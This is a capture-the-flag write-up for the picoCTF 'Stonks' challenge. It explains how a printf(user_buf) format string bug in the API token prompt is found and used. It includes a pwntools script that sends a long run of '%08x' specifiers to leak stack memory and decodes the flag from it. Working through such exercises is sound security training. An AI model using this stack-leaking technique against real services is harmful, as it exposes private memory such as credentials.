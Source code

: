 After using wget to fetch the vulnerable source code sitting behind the remove 
server at mercury.picoctf.net:53437, I tried compiling it with 
`gcc -o vuln vuln.c` . Interestingly, I saw the following security warning:

```
vuln.c: In function ‘buy_stonks’:
vuln.c:93:2: warning: format not a string literal and no format arguments [-Wformat-security]
   93 |  printf(user_buf);
      |  ^~~~~~
```

This was basically a confirmation that the challenge would involve exploiting
a format string vulnerability.

When you run the `vuln` binary locally/remotely, it'll prompt you twice - once
for the number 1 or 2, then once for an API token. The format string 
vulnerability is located on the second prompt for the API token. I confired this
by passing in a format string "%x" and saw that it would print out a hexadecimal
value like `a014350` . From here, my next goal was to leak out the contents of
the stack. I first tried brute forcing through a range of offsets on the stack
by sending through `%1$s` , `%2$s` and so on, however I couldn't produce any 
meaningful string value this way. I then tried directly leaking out all the
values at the first several stack addresses by sending a long sequence of `%08x`

format specifiers. Some of the byte sequences looked like it could be valid 
ASCII such as 0x70 for 'p', 0x69 for 'i', and so on. This was a strong hint that
led me to try to unhex the leaked stack values which produced the flag.

I wrote the following script to retrieve the flag:

```python
from pwn import *
import re

context.log_level = 'critical'

def solve():
    conn = remote('mercury.picoctf.net', 53437)
    conn.sendline("1".encode())
    output = conn.recvrepeat(1).decode()

    conn.sendline("%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x".encode())
    output = conn.recvrepeat(1).decode()

    # The second line of output will contain the leaked addresses on the stack.
    lines = output.split("\n")
    leaked_stack_data = lines[1]

    # Now, we need to partition the leaked stack data into groups of 8 
    # characters, corresponding to 4 bytes, then reverse those bytes before
    # unhexing them to get the flag in the correct order.
    extracted_text = ""
    for i in range(0, len(leaked_stack_data), 8):
        if i + 8 <= len(leaked_stack_data):
            sub = leaked_stack_data[i : i + 8]
            sub_bytes = [sub[i : i + 2] for i in range(0, len(sub), 2)][::-1]
            
            # Note: decode's errors='ignore' option is handy for skipping 
            #       decoding invalid UTF-8 values.
            extracted_text += unhex("".join(sub_bytes)).decode(errors='ignore')

    pattern = re.compile('(picoCTF\{.*?\})')  # .*? performs a non-greedy match.
    flag = pattern.search(extracted_text)
    print(flag.group(1))

    conn.close()

if __name__ == "__main__":
    solve()
```
